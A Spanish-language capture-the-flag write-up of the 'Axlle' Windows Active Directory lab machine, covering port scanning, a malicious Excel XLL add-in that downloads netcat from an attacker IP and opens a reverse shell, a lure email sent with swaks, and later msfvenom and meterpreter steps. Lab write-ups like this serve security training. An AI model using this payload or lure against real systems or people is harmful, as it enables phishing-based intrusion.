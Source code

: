 #ActiveDirectory #hard #windows 
### Ping

```python
❯ ping -c 1 10.10.11.21
PING 10.10.11.21 (10.10.11.21) 56(84) bytes of data.
64 bytes from 10.10.11.21: icmp_seq=1 ttl=127 time=151 ms

--- 10.10.11.21 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 151.127/151.127/151.127/0.000 ms
```

### TTL = 127 Windows

### nmap

```python
❯ sudo nmap -p- -open -sCV --min-rate 5000 -n -Pn 10.10.11.21 -oN Scan
[sudo] password for gleoq: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-27 19:21 EDT
Nmap scan report for 10.10.11.21
Host is up (0.15s latency).
Not shown: 65512 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: MAINFRAME, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Axlle Development
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-27 23:22:29Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: axlle.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: axlle.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-06-27T23:23:59+00:00; -3s from scanner time.
| ssl-cert: Subject: commonName=MAINFRAME.axlle.htb
| Not valid before: 2024-05-19T11:25:03
|_Not valid after:  2024-11-18T11:25:03
| rdp-ntlm-info: 
|   Target_Name: AXLLE
|   NetBIOS_Domain_Name: AXLLE
|   NetBIOS_Computer_Name: MAINFRAME
|   DNS_Domain_Name: axlle.htb
|   DNS_Computer_Name: MAINFRAME.axlle.htb
|   DNS_Tree_Name: axlle.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2024-06-27T23:23:21+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49169/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49170/tcp open  msrpc         Microsoft Windows RPC
49175/tcp open  msrpc         Microsoft Windows RPC
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
52440/tcp open  msrpc         Microsoft Windows RPC
61423/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: MAINFRAME; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -3s, deviation: 0s, median: -3s
| smb2-time: 
|   date: 2024-06-27T23:23:24
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.59 seconds
```

### Enumeración del puerto 80 (http)
parece que no podemos ver nada explotable en la web. así que vamos a seguir enumerando
![[Pasted image 20240627192751.png]]

parece que podemos hacer algún tipo de petición al correo `acconunts@axlle.htb` 
![[Pasted image 20240629111401.png]]

### DLL Hijacking
con este script en C vamos a intentar hacer una petición DLL

```python
#include <windows.h>
#include <urlmon.h>
#pragma comment(lib, "urlmon.lib")
__declspec(dllexport) short __stdcall xlAutoOpen()
{
HRESULT hr = URLDownloadToFileW(NULL, L"http://10.10.14.15:80/nc64.exe", L"C:\\Windows\\Tasks\\nc64.exe", 0,
NULL);
if (SUCCEEDED(hr)) {
WinExec("C:\\Windows\\Tasks\\nc64.exe -e cmd 10.10.14.15 443", SW_HIDE);
}
return 0;
}
```

### Compilamos el  dll con mingw-w64

```python
>	sudo apt install mingw-w64


>	x86_64-w64-mingw32-gcc -shared -o exploit.dll exploit.c -Wl,--output-def,exploit.def -lurlmon
```

### cambiamos la extensión del script

```python
>	mv exploit.dll exploit.xll
```

### Enviamos el XLL a accounts@axlle.htb vía SMTP

```python
swaks --to "accounts@axlle.htb" --from "gleoq@axlle.htb" --header "Subject: Open this exploit" --body "This is a picture of my girlfriend" --attach-type application/octet-stream --attach @exploit.xll --server axlle.htb --port 25 --timeout 20s
```

![[Pasted image 20240629113053.png]]

### Enumeración del sistema
abajo a la derecha podemos observar la terminal. de la maquina victima. he conseguido un archivo `xml` con información importante 

```python
type C:\Program Files (x86)\hMailServer\Data\axlle.htb\dallon.matrix\2F\{2F7523BD-628F-4359-913E-
A873FCC59D0F}.eml
```

![[Pasted image 20240629114836.png]]

### Reverse shell
creamos un `exploit con msfvenom` y lo compartimos con la maquina victima con un servidor python
![[Pasted image 20240629115953.png]]

### msfconsole

![[Pasted image 20240629120522.png]]

`ejecutamos el exploit `
#Nota: la shell debe estar subida en el directorio `c:\programdata\` no en `Temp` como se muestra en la imagen
![[Pasted image 20240629120649.png]]

### meterpreter

![[Pasted image 20240629122013.png]]



### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad | Tipo | Nivel | Link |
| -------------- | --------------------------- | ---- | ----- | ---- |
|                |                             |      |       |      |
|                |                             |      |       |      |
|                |                             |      |       |      |
